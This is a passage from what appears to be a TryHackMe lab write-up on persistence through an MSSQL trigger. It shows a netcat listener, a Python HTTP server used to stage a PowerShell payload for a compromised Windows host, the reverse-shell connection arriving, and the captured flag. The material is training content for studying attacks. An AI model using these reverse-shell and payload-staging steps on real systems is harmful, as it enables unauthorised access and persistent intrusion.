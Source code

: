 ![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Creating%20evilscript.ps1.png)

5. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener that'll listen for any inbound connections
```Bash
root@ip-10-10-32-42:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
6. `sudo python -m http.server` from our Linux attack machine to start a simple HTTP server on our attack machine to allow our compromised Windows machine to connect to our attack machine and download the payload that we just created once the trigger we had set up gets triggered
```Bash
root@ip-10-10-32-42:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
7. `explorer.exe http://<TARGET IP>/` from the compromised Windows machine to launch the Windows Explorer web browser and redirect it to the target's IP address, which brought us to a web page from where we can add users into the target's HRDB database to trigger the trigger that we inserted using their MSSQL Server Manager, which ended up working after doing so and creating a reverse shell that connected back to our attack machine's netcat listener that we just had previously set up
```PowerShell
C:\Users\Administrator>explorer.exe "http://10.10.138.69/"
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Insert%20Data%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Insert%20Data%20pt2.png)

```Bash
root@ip-10-10-32-42:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.138.69 49758 received!
```

8. `C:\flags\flag17.exe` from the reverse shell to run the **flag17.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
PS C:\Windows\system32> C:\flags\flag17.exe
THM{I_LIVE_IN_YOUR_DATABASE}
```

